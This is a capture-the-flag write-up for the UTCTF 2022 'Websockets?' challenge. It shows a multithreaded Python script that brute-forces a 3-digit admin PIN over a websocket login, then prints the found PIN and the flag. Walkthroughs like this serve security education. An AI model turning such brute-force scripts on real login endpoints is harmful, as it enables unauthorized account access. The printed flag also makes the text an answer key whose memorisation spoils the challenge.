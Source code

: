 ```yaml
---
title: 'UTCTF 2022 | Websockets?'
date: "2022-03-15T00:00:00Z"
tags: [websocket,authentication,bruteforcing]
categories: [CTF]
cover:
    image: "/assets/CTFs/UTCTF2022/Websockets/challenge_info.png"
points: 335
solves: 173
---
```


**Websockets?** was a challenge in the web category for UTCTF 2022, in the end it has {{ page.solves }} Solves and it was worth {{ page.points }} Points. It was relatively easy.

We find this website without much information or input, checking its source we find a new page `/internal/login` and a username `admin`.
Going to this we now see a login, it requires a username and password. Lets open its source and see what we can find. There is a comment it says the following

```html
<!-- what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack -->
```

So the password will be 3 diget's long? So it will have a range from `000` to `999`.

There also is a JavaScript file, opening it shows us something interesting. The login uses websockets to verify the password, we can easily bruteforce it.
Lets write a small script using python.

```python
#!/usr/bin/env python3

import asyncio
import websockets
from concurrent.futures import ThreadPoolExecutor

URL = 'ws://web1.utctf.live:8651/internal/ws'
PINLENGTH = 3
USERNAME = 'admin'

async def tryLoginWith(pin):
    async with websockets.connect(URL) as websocket:
        begin = await websocket.recv()
        if begin == 'begin':
            await websocket.send(f'begin')
            await websocket.send(f'user {USERNAME}')
            await websocket.send(f'pass {pin}')

            data = await websocket.recv()
            if 'session' in data:
                print(f'[<<<] Data: {data} | Pincode: {pin}')
            else:
                print(f'[-] Wrong Pincode: {pin}')

def send(args):
    asyncio.run(tryLoginWith(str(args).zfill(PINLENGTH)))

args = [ x for x in range(1000) ]
with ThreadPoolExecutor(max_workers=100) as pool:
    pool.map(send,args)

```
^ A download for this script can be found [here](/assets/CTFs/UTCTF2022/Websockets/solve.py)


This code uses multithreading to get the correct pincode as quickly as possible. It also makes sure that the pincode is padded with zero's in front. Running this results in the following output.

![](/assets/CTFs/UTCTF2022/Websockets/pincode_done.png)

The pincode it found is `907`.
Lets login with this acquired pincode, and we got the flag! **utflag{w3bsock3ts}**
